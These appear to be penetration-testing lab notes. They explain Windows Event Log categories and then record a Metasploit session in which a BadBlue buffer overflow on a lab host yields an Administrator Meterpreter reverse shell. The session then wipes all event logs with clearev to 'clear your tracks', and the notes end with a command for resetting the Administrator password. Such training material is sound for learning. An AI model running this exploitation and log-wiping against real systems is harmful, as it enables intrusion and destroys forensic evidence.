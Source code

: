 - The windows OS stores and catalogs all actions/events performed on the system and stores them in the Windows Event log.
- Event logs are categorized based on the type of events they store:
	- Application logs: Stores application/program events like startups, crashes etc.
	- System logs: Stores system events like startups, reboots etc.
	- Security logs: Stores security events like password changes, authentication failure etc.
- Event logs can be accessed via the Event viewer on Windows.
- The event logs are the first stop for any forensic investigator after a compromise has been detected. It is therefore very important to clear your tracks after you are done with your assessment.

```
root@attackdefense:~# cat /root/Desktop/target 
Target IP Address : 10.5.25.205
root@attackdefense:~# service postgresql start && msfconsole
Starting PostgreSQL 12 database server: main.
       =[ metasploit v5.0.74-dev                          ]
+ -- --=[ 1972 exploits - 1088 auxiliary - 338 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > db_status
[*] Connected to msf. Connection type: postgresql.
msf5 > workspace -a eventlog
[*] Added workspace: eventlog
[*] Workspace: eventlog
msf5 > setg rhosts 10.5.25.205
rhosts => 10.5.25.205
msf5 > db_nmap -sV 10.5.25.205
[*] Nmap: Starting Nmap 7.70 ( https://nmap.org ) at 2023-08-08 02:13 IST
[*] Nmap: Nmap scan report for 10.5.25.205
[*] Nmap: Host is up (0.0015s latency).
[*] Nmap: Not shown: 991 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 80/tcp    open  http               BadBlue httpd 2.7
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 76.83 seconds
msf5 > search type:exploit name:badblue

Matching Modules
================

   #  Name                                       Disclosure Date  Rank   Check  Description
   -  ----                                       ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_ext_overflow  2003-04-20       great  Yes    BadBlue 2.5 EXT.dll Buffer Overflow
   1  exploit/windows/http/badblue_passthru      2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


msf5 > use exploit/windows/http/badblue_passthru
msf5 exploit(windows/http/badblue_passthru) > options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.5.25.205      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf5 exploit(windows/http/badblue_passthru) > set target BadBlue\ EE\ 2.7\ Universal 
target => BadBlue EE 2.7 Universal
msf5 exploit(windows/http/badblue_passthru) > options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.5.25.205      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf5 exploit(windows/http/badblue_passthru) > run

[*] Started reverse TCP handler on 10.10.12.3:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (180291 bytes) to 10.5.25.205
[*] Meterpreter session 1 opened (10.10.12.3:4444 -> 10.5.25.205:49289) at 2023-08-08 02:19:24 +0530

meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > pgrep explorer
2312
meterpreter > clearev
[*] Wiping 260 records from Application...
[*] Wiping 514 records from System...
[*] Wiping 15899 records from Security...
meterpreter >
```

In order for you to use the command we need to be administrator.
To change the password we can use the command in shell of windows `net user Administrator password`